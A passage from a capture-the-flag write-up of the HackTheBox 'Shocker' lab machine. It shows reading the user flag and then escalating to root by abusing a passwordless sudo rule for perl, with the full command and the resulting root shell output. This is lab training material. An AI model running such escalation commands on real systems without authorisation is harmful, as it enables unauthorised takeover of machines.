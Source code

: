 I'm user `shelly`!

**user.txt:**
```shell
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
{Redacted}
```

## Privilege Escalation

### shelly to root

As usual, enumerate the system after gaining initial foothold!

**Sudo permission:**
```shell
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

User `shelly` can run `/usr/bin/perl` as root without password!

**According to [GTFObins](https://gtfobins.github.io/gtfobins/perl/#sudo), we can escalate our privilege to root via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Shocker/images/Pasted%20image%2020230603194843.png)

**Let's do this!**
```shell
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
python3 -c "import pty;pty.spawn('/bin/bash')"
root@Shocker:/usr/lib/cgi-bin# whoami;hostname;id;ip a
whoami;hostname;id;ip a
root
Shocker
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:d5:87 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.56/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:d587/64 scope global mngtmpaddr dynamic 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb9:d587/64 scope link 
       valid_lft forever preferred_lft forever
```
